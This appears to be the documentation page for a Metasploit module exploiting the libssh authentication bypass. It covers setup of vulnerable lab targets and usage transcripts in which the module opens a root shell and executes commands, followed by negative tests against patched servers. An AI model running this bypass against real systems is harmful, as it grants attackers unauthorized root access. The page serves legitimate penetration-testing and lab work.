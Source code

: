 ## Introduction

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

### Docker (Vulhub)

A prebuilt [vulhub](https://github.com/vulhub/vulhub) target is available for testing. This target does _not_ work with the `Shell` action, only the `Execute` action. To test that scenario, use the `Docker (Custom)` steps below.

```
docker run -it -p 3333:22 vulhub/libssh:0.8.1
```

### Docker (Custom)

In an empty folder create a new `Dockerfile` with the below file contents. Note that this Dockerfile is based on [vulhub/libssh:0.8.1](https://github.com/vulhub/vulhub/tree/4b1954c5c95140d99a4b94a7005707dd041196f6/base/libssh/0.8.1) with changes to work with the `Shell` target:

```Dockerfile
FROM buildpack-deps:stable-scm

LABEL maintainer="phithon <root@leavesongs.com>"

COPY ssh_server_fork.patch /ssh_server_fork.patch

RUN set -ex \
    && BUILDDEP="gcc g++ make pkg-config cmake xz-utils patch" \
    && apt-get update \
    && apt-get install --no-install-recommends -y \
        ca-certificates \
        wget \
        libc6-dev \
        zlib1g-dev \
        libgcrypt20-dev \
        libgpg-error-dev \
        $BUILDDEP \
    && wget -qO- https://www.libssh.org/files/0.8/libssh-0.8.3.tar.xz \
        | xz -c -d | tar x -C /usr/src --strip-components=1 \
    && mkdir -p /usr/src/build \
    && patch /usr/src/examples/ssh_server_fork.c < /ssh_server_fork.patch \
    && cd /usr/src/build \
    && cmake \
        -DCMAKE_INSTALL_PREFIX=/usr \
        -DWITH_SERVER=ON \
        -DWITH_STATIC_LIB=ON \
        -DWITH_GSSAPI=ON \
        -DWITH_GCRYPT=ON \
        -DWITH_SFTP=ON \
        -DWITH_THREADS=ON \
        .. \
    && make && make install \
    && apt-get purge -y --auto-remove $BUILDDEP

RUN ssh-keygen -t ecdsa -m pem -f /etc/ssh/ssh_host_ecdsa_key -q -N "" \
    && ssh-keygen -t dsa -m pem -f /etc/ssh/ssh_host_dsa_key -q -N "" \
    && ssh-keygen -t rsa -m pem -b 2048 -f /etc/ssh/ssh_host_rsa_key -q -N ""

CMD /usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 22 0.0.0.0
```

Ensure the Metasploit patch is present in the same directory:

```
cp /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch .
```

Expected directory structure:

```
Dockerfile
ssh_server_fork.patch
```

Build the image:

```
docker build -t libssh:vulnerable .
```

Create a new container available on port `2222`:

```
docker run -it -p 2222:22 libssh:vulnerable
```

### Host

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `git apply -p1 /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Actions

```
Name     Description
----     -----------
Execute  Execute a command
Shell    Spawn a shell
```

## Options

**CMD**

Set this to a command or shell you want to execute. An `exec` channel
request will be sent instead of a `shell` channel request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Positive testing of shell commands using the `Execute` action:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set action Execute
action => Execute
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set cmd id; uname -a
cmd => id; uname -a
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] 172.28.128.3:2222 - Executed: id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against patched libssh 0.8.4:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelOpenFailed: Session channel open failed (1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelRequestFailed: Shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```

